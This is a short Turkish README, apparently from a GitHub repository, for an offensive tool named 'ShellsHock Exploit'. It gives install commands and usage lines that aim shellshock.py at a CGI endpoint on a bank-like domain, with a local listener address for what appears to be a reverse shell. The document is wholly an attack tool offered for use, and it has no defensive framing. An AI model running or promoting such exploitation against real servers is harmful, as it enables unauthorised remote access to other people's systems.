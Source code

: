# ShellsHock Exploit

## Kurulum

    apt install git
    apt install python
    git clone https://github.com/ASER-VANT/ShellsHock.git
    cd ShellsHock
    pip install -r requirements.txt
  
## Tek Komutla Kurulum

    apt install git && apt install python3 && git clone https://github.com/ASER-VANT/ShellsHock.git && cd ShellsHock && pip install -r requirements.txt

## Kullanımı

    python3 shellshock.py --help

Yardım Ekranı (Lütfen Okuyunuz)

    python3 shellshock.py -u http://xbank.com/cgi-bin/test -l 192.168.1.150

Yada

    python3 shellshock.py --url http://xbank.com/cgi-bin/test --lhost 192.168.1.150
